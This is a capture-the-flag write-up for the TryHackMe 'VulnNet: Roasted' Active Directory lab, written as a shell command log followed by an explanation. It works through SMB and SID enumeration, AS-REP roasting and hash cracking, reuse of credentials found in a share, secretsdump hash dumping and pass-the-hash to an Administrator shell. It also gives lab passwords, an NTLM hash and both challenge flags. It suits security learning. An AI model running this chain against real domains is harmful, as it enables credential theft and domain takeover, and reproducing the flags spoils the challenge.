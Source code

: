 # VulnNet: Roasted - Easy

```shell
nmap -T4 -p- -A -Pn -v 10.10.205.111

#confirm host and domain details
crackmapexec smb 10.10.205.111

dig axfr @10.10.205.111 vulnnet-rst.local
#no output

smbmap -H 10.10.205.111
#no shares listed

smbmap -u anonymous -H 10.10.205.111
#this works, shows IPC share as readable

smbclient -L \\\\10.10.205.111
#this methods lists some shares

#we are able to access two shares
smbclient \\\\10.10.205.111\\VulnNet-Business-Anonymous
#use mget to get all files

smbclient \\\\10.10.205.111\\VulnNet-Enterprise-Anonymous
#use mget again

ls -la
#go through the files

vim names.txt
#add enumerated names

rpcclient 10.10.205.111
#error

rpcclient -U "" -N 10.10.205.111
#error

#sid user enum
lookupsid.py anonymous@10.10.205.111
#this outputs usernames

vim usernames.txt
#clean up list and write valid usernames

GetNPUsers.py -dc-ip 10.10.205.111 vulnnet-rst.local/ -usersfile usernames.txt -request
#AS-REP roasting attack
#gives hash for t-skid user

hashcat -a 0 -m 18200 krbhash.txt /usr/share/wordlists/rockyou.txt
#crack the hash

vim pass.txt
#store the password

crackmapexec smb -u usernames.txt -p pass.txt --shares 10.10.205.111 --continue-on-success
#this shows valid creds for 't-skid'

#evil-winrm and psexec.py do not give shell
#we can try enumerating smb shares as t-skid

smbmap -u t-skid -p tj072889* -H 10.10.205.111
#this shows some shares as readable

smbclient \\\\10.10.205.111\\IPC$ -U t-skid

smbclient \\\\10.10.205.111\\NETLOGON -U t-skid
#use get to download file

cat ResetPassword.vbs
#contains creds

evil-winrm -u a-whitehat -p bNdKVkjv3RR9ht -i 10.10.205.111
#we get shell

cd C:\Users

gci -recurse . | select fullname
#prints directory contents recursively

type C:\Users\enterprise-core-vn\Desktop\user.txt
#user flag

cd a-whitehat
#we can upload winpeas and SharpHound here

upload /home/sv/Tools/winPEASx64.exe

upload /home/sv/Tools/SharpHound.exe

.\winPEASx64.exe
#we cannot run it

.\SharpHound.exe
#we are able to run this
#generates a .zip file

download C:\Users\a-whitehat\20221226215103_BloodHound.zip /home/sv/roasted.zip
#download zip file to attacker
#download fails

#we can use manual enumeration

whoami /groups
#'a-whitehat' is a part of Domain Admins group
#we can try dumping hashes

secretsdump.py vulnnet-rst.local/a-whitehat:bNdKVkjv3RR9ht@10.10.205.111
#this dumps hashes
#use Administrator hash with evil-winrm

evil-winrm -u Administrator -H c2597747aa5e43022a3a3049a3c3b09d -i 10.10.205.111
#we get shell
#read system flag
```

* Open ports & services:

  * 53 - domain - Simple DNS Plus
  * 88 - kerberos-sec - Kerberos
  * 135 - msrpc - RPC
  * 139 - netbios-ssn - netbios-ssn
  * 389 - ldap - AD LDAP
  * 445 - microsoft-ds
  * 464 - kpasswd5
  * 3268 - ldap - AD LDAP
  * 5985 - http - HTTPAPI httpd 2.0
  * 9389 - mc-nmf - .NET Message Framing
  * 49665,49667,49669,49673,49690,49709 - msrpc - RPC
  * 49670 - ncacn_http - RPC over HTTP 1.0

* ```nmap``` shows that domain name as 'vulnnet-rst.local'; we can confirm the host and domain details using ```crackmapexec``` as well.

* We can attempt DNS enumeration using ```dig``` but it does not work.

* Now, for enumerating SMB shares such as ```smbmap``` and ```smbclient``` - we are able to list some shares using ```smbclient```.

* ```smbmap``` works only if we mention user as 'anonymous'.

* Out of the listed shares, we are able to access two shares - 'VulnNet-Business-Anonymous' and 'VulnNet-Enterprise-Anonymous'.

* Both of these shares contain a few .txt files - we can go through them and check for clues.

* From all the .txt files, we are able to enumerate a few names; we can add this to a file:

  * Alexa Whitehat
  * Jack Goldenhand
  * Tony Skid
  * Johnny Leet

* We can attempt enumeration using ```rpcclient``` but this fails to give us anything.

* Also, the output from ```smbmap``` denoted that the 'IPC$' share is 'read-only' - this means we can use a tool like ```lookupsid.py``` for SID user enumeration.

* Using the username 'anonymous', ```lookupsid.py``` gives us a list of valid usernames - we can clean up the output and write these usernames to a file.

* As we have a list of valid usernames, we can try using 'AS-REP Roasting' attack using ```GetNPUsers.py```.

* This gets us the hash for 't-skid' user; we can crack the hash using ```hashcat```.

* We are able to crack the hash; we can now check for shell using ```crackmapexec```.

* This shows that we can use this password for 't-skid'; we can attempt logging in using ```evil-winrm``` or ```psexec.py```, but it does not work.

* We can try enumerating the shares as user 't-skid' to find other info; ```smbmap``` shows that we can read IPC$, NETLOGON and SYSVOL shares now.

* The NETLOGON share contains a .vbs file; going through this, we can find the password for 'a-whitehat' user.

* Using ```evil-winrm```, we get a shell as 'a-whitehat'; user flag can be found by printing directory contents recursively.

* Now, as it is given in the challenge that this is a network of machines, we can use both ```winpeas``` and ```bloodhound``` for enumeration of local machine and AD environment, respectively.

* We can use ```evil-winrm```'s upload and download feature to transfer files.

* Now, we get a virus alert while running ```winpeas``` so we can try running ```SharpHound```.

* This works and we get a .zip file as a result - we can try downloading this in attacker machine but it does not work.

* As both methods of automated enumeration have failed, we can try manual enumeration.

* ```whoami /groups``` shows that our user is a part of the "Domain Admins" group.

* So, we can try using a tool like ```secretsdump.py``` and attempt to dump hashes.

* This dumps NTLM hashes; we can use the Administrator hash with ```evil-winrm``` to get shell and read system flag.

```markdown
1. What is the user flag? - THM{726b7c0baaac1455d05c827b5561f4ed}

2. What is the system flag? - THM{16f45e3934293a57645f8d7bf71d8d4c}
```
